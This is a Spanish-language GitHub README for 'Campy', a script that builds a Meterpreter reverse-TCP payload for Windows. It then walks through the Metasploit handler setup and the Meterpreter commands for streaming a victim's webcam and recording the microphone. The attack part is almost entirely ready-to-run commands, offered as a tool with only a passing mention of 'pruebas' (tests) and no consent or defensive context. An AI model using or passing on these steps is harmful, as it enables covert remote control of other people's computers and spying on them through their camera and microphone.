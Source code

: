 ![Campy-banner](https://user-images.githubusercontent.com/107135484/191642751-89b564d2-0905-461c-8116-feda740b7cbf.png)
<p align="center">
   <img src="https://img.shields.io/badge/STATUS-EN%20DESAROLLO-green">


## Comenzando 🚀

_Campy es un script basico, con el cual podras optimizar la creacion de un paquete venom para hacer pruebas  con metasploit y poder acceder a la camara y microfono de un dispositivo Windows._

Mira **Deployment** para conocer como desplegar el proyecto.


### Pre-requisitos 📋

_1. Actualizar paquetes_
```
sudo apt update && sudo apt upgrade
```

_2. Verifica que tengas pip instalado:_

```
pip --version
```
_Ejecuta, en caso de no tenerlo instalado:_
```
sudo apt-get install python-pip
```
_3. Verifica que tengas git instalado:_

```
git --version
```
_Ejecuta, en caso de no tenerlo instalado:_
```
sudo apt-get install git
```



### Instalación 🔧

_Ahora si clonas el repositorio o lo descargas. Como prefieras_

```
git clone https://github.com/TDI-CO/Campy.git
```
```
cd Campy
```
_Instalamos los requerimientos_

```
sudo pip install pyautogui
```
```
sudo python3 campy.py
```

## Ejecutando las pruebas ⚙️

_Campy utilizara socket para tener tu ip y agregarla al codigo de venom, luego te solicitaara un puerto el cual por defecto puedes poner 4444 y por ultimo un nombre para el paquete_

![Sin-título-1](https://user-images.githubusercontent.com/107135484/191758074-5ffde2c3-1dfe-4d12-9c47-144e20d5065f.png)

_Para poder monitorear:_

```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
_Es muy importante que coloques la misma ip y puertos_
```
set LHOST "TU DIRECCION IP"
```
```
set LPORT "EL PUERTO QUE ELEGISTE"
```
```
show options
```
```
exploit
```
## Monitorear camara 📸

_Primero enlistamos las camaras_
```
webcam_list
```
```
webcam_stream "ELIGE UN NUMERO DE LA LISTA"
```

## Monitorear mricofono 🎤

```
record_mic -d "segundos"
```

## Construido con 🛠️

_Este script fue desarrollado con python_


* **Siguenos en instagram** - *Desarrolladores* - [The Dark Island](https://www.instagram.com/tdi_colombia/)

## Esperamos te sirva 🎁

* Comenta a otros sobre este proyecto 📢
* Invita una cerveza 🍺 o un café ☕ a alguien del equipo.
* Dona a nequi: `323 370 1359`



---
⌨️ con ❤️ por [TDI](https://www.instagram.com/tdi_colombia/) 😊
